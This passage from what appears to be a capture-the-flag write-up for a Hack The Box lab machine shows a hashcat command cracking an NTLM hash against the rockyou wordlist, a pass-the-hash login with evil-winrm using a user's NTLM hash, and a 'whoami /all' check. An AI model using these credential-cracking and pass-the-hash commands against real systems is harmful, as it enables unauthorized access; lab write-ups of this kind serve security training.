 ```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt

```
- What we can do instead is, use the NTLM hash with evil-winrm (as port 5985 is open):

```bash
evil-winrm -u sflowers -H "1FCDB1F6015DCB318CC77BB2BDA14DB5" -i outdated.htb

```

![image44](../resources/e51bda1bbf7b42e8a27f9e05c73ed0ad.png)


![image45](../resources/8d637a69e60d4c158e5716d6f1418e98.png)

```bash
whoami /all

```

![image46](../resources/3eec68fd94cc4a3e9217d37859ea45c3.png)
